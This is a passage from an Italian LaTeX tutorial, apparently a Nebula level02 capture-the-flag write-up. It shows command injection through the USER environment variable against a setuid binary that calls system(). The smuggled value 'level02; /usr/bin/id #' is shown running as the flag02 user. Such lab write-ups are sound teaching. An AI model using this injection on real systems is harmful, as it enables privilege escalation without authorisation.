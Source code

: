 I due attacchi citati sono più complessi rispetto all'iniezione standard: difficilmente un utente alle prime armi riesce a portarli in porto, quindi al momento li ignoreremo. Ricordiamo che il nostro obiettivo è quello di iniettare codice arbitrario in una stringa di comando bash. In bash è possibile concatenare due comandi con il carattere separatore \texttt{;}. Possiamo usare la variabile di ambiente \texttt{USER} per iniettare un comando qualsiasi:
\begin{center}
    \texttt{USER='level02; /usr/bin/id'}
\end{center}

Aggiorniamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width=0.8 \textwidth]{./Images/cap5/5.8.png}
\end{figure}
\FloatBarrier

Autentichiamoci come utente level02, impostiamo la variabile di ambiente \texttt{USER} al
valore suggerito in precedenza: \texttt{USER='level02; /usr/bin/id'}. Eseguiamo \texttt{/home/flag02/flag02}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag02/flag02
about to call system("/bin/echo level02; /usr/bin/id is cool")
/usr/bin/id is cool
\end{lstlisting}
\end{mdframed}
La funzione \texttt{system()} esegue alla lettera il comando che gli viene passato. L'errore risiede nei parametri extra passati volontariamente a \texttt{/usr/bin/id}, che non possono essere cancellati direttamente. Vanno quindi annullati in qualche modo. In bash è possibile commentare il resto di una riga con il cancelletto \texttt{\#}. Possiamo inserire un carattere di commento dopo \texttt{/usr/bin/id} per annullare gli argomenti extra. Autentichiamoci allora come utente level02, impostiamo la variabile di ambiente \texttt{USER} al
valore suggerito in precedenza: \texttt{USER='level02; /usr/bin/id \#'}. Eseguiamo \texttt{/home/flag02/flag02}:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag02/flag02
about to call system("/bin/echo level02; /usr/bin/id # is cool")
level02
uid=997(flag02) gid=1003(level02) groups=997(flag02), 1003(level02)
\end{lstlisting}
\end{mdframed}
Vediamo che \texttt{/usr/bin/id} viene eseguito correttamente, quindi ci basta sostituirlo con \texttt{/bin/getflag}. Aggiorniamo l'albero di attacco:

